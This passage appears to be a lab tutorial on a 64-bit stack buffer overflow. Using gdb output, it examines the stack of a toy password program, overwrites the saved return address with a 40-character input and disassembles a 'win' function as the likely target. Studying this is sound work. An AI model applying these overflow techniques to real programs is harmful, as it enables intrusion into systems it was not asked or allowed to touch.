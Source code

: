 ### Memory Examination
```shell
(gdb) x/12gx $rsp
0x7fffffffe390: 0x4141000000000000      0x4141414141414141
0x7fffffffe3a0: 0x00007fffffff000a      0x00005555555551d3
0x7fffffffe3b0: 0x0000000000000001      0x00007ffff7e0224a
0x7fffffffe3c0: 0x00007fffffffe4b0      0x00005555555551c5
0x7fffffffe3d0: 0x0000000155554040      0x00007fffffffe4c8
0x7fffffffe3e0: 0x00007fffffffe4c8      0xc84d7419830e3fd3
```

`x/12gx`: use g for giant words to display 8 bytes (64 bits) at a time

On 64-bit systems, the `rip` is 8 bytes (64 bits) and immediately follows the end of the stack frame. Here, it is `0x00005555555551d3`

### Overflowing the Stack with 40 Characters

```shell
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/debian/pwd64
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Password address: 0x7fffffffe396
Enter password: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ

Breakpoint 1, test_pw () at pwd.c:9
9               return 1;
(gdb) x/12gx $rsp
0x7fffffffe390: 0x4141000000000000      0x4343424242424141
0x7fffffffe3a0: 0x4545444444444343      0x4747464646464545
0x7fffffffe3b0: 0x4949484848484747      0x000a4a4a4a4a4949
0x7fffffffe3c0: 0x00007fffffffe4b0      0x00005555555551c5
0x7fffffffe3d0: 0x0000000155554040      0x00007fffffffe4c8
0x7fffffffe3e0: 0x00007fffffffe4c8      0x682bd9b1b51f3895
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00005555555551ae in test_pw () at pwd.c:10
10      }
```

![gdb64](buffer64.png)

Our input overflows the `rip`, resulting in a segmentation fault and the `RET` value now contains `0x4747464646464545`, hexadecimal codes for `EEFFFFGG` in little endian

### Disassembly

```shell
(gdb) disassemble win
Dump of assembler code for function win:
   0x00005555555551af <+0>:     push   %rbp
   0x00005555555551b0 <+1>:     mov    %rsp,%rbp
   0x00005555555551b3 <+4>:     lea    0xe71(%rip),%rax        # 0x55555555602b
   0x00005555555551ba <+11>:    mov    %rax,%rdi
   0x00005555555551bd <+14>:    call   0x555555555030 <puts@plt>
   0x00005555555551c2 <+19>:    nop
   0x00005555555551c3 <+20>:    pop    %rbp
   0x00005555555551c4 <+21>:    ret
End of assembler dump.
```
